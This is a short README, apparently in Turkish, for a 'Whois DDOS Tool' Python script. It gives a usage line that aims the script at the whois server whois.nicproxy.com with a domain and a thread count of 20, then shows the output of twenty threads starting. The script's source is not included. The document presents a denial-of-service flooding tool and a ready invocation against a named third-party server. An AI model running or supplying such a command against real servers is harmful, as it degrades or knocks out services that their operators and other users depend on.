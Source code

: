  
Whois DDOS Tool
----------------

Betik asagidaki sekilde calistirilmaktadir.

./whois_ddos.py -h whois.nicproxy.com agguvenligi.net 20
0 : thread is started ... \n
1 : thread is started ... 
2 : thread is started ... 
3 : thread is started ... 
4 : thread is started ... 
5 : thread is started ... 
6 : thread is started ... 
7 : thread is started ... 
8 : thread is started ... 
9 : thread is started ... 
10 : thread is started ... 
11 : thread is started ... 
12 : thread is started ... 
13 : thread is started ... 
14 : thread is started ... 
15 : thread is started ... 
16 : thread is started ... 
17 : thread is started ... 
18 : thread is started ... 
19 : thread is started ... 
